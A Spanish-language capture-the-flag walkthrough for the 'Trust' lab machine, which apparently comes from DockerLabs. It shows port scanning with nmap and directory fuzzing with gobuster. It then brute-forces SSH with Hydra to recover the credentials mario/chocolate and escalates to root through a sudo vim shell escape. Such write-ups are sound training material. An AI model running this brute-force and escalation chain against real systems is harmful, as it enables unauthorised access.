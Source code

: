 # 🖥️ Máquina Trust  
- 🔓 Dificultad: **muy fácil**

## 🔌 Comprobamos la conexión:
Primero comprobaremos si tenemos conexión con la máquina Injection:

```bash
ping -c 2 172.18.0.2
```

📡 Este comando enviará solo 2 paquetes ping a la dirección IP designada y luego terminará.

```
PING 172.18.0.2 (172.18.0.2) 56(84) bytes of data.
64 bytes from 172.18.0.2: icmp_seq=1 ttl=64 time=0.070 ms
64 bytes from 172.18.0.2: icmp_seq=2 ttl=64 time=0.130 ms 

--- 172.18.0.2 ping statistics ---
2 packets transmitted, 2 received, 0% packet loss, time 1039ms
rtt min/avg/max/mdev = 0.070/0.100/0.130/0.030 ms
```

---

## 🔍 Escaneo con Nmap
Ahora haremos un escaneo de puertos con la herramienta 🛠️ **Nmap**:

```bash
sudo nmap -p- -sS -sC --open -sV --min-rate=5000 -n -vvv -Pn 172.18.0.2 -oN /home/kali/Escritorio/dockerlabs_maquinas/maquinas_muy_faciles/maquina_trust_muyfacil/escaneo_trust.txt            
```

🧾 **Explicación de los parámetros del comando:**

- `-p-` Escanea **todos los 65535 puertos TCP**
- `-sS`  Escaneo **SYN sigiloso** 
- `-sC` Usa **scripts por defecto** 
- `--open` Muestra **solo puertos abiertos** 
- `-sV` Detecta la **versión de los servicios** 
- `--min-rate=5000` Velocidad mínima de **5000 paquetes/s** 
- `-n` Sin resolución DNS 
- `-vvv` Modo muy detallado 
- `-Pn` Sin ping al host antes de escanear 
- `-oN` Guarda el resultado en la ruta especificada 

---

## 📊 Resultado del escaneo

🖼️ **IMAGEN**

🔍 Observamos que los puertos **22 (SSH)** y **80 (HTTP)** están abiertos.

🌐 Al ingresar la dirección IP `172.18.0.2` nos muestra la página por defecto de **Apache**.

🖼️ **IMAGEN**

---

## 🚀 Ataque de Fuzzing con GoBuster

Lanzamos un ataque de fuzzing con la herramienta 🧰 **GoBuster**:

```bash
gobuster dir -u http://172.18.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,php,sh,py
```

📘 **Explicación del comando:**

- `dir` → Modo de búsqueda de **directorios y archivos**  
- `-u http://172.18.0.2/` → URL del servidor web   
- `-w ...` → Diccionario de palabras   
- `-x html,php,sh,py` → Extensiones a probar 

🖼️ **IMAGEN**

Descubrimos el archivo `/secret.php`, el cual revela información útil:

🖼️ **IMAGEN**

---

## 🧑‍💻 Fuerza Bruta con Hydra

Con el posible usuario `mario`, lanzamos un ataque de fuerza bruta con **Hydra** 🐍:

```bash
hydra -l mario -P /usr/share/wordlists/rockyou.txt ssh://172.18.0.2 -t 50
```

🖼️ **IMAGEN**

🔐 Ahora tenemos las credenciales:

- 👤 **Usuario**: `mario`  
- 🔑 **Contraseña**: `chocolate`

Nos conectamos por SSH:

```bash
ssh mario@172.18.0.2
```

---

## ⬆️ Escalada de Privilegios

📜 Verificamos permisos sudo:

```bash
sudo -l
```

```bash
User mario may run the following commands on 59cb77302414:
    (ALL) /usr/bin/vim
```

⚡ Podemos usar `vim` para obtener una shell como root:

```bash
sudo vim -c ':!/bin/bash'
```

📟 Verificación:

```bash
root@59cb77302414:/home/mario# whoami
root
```

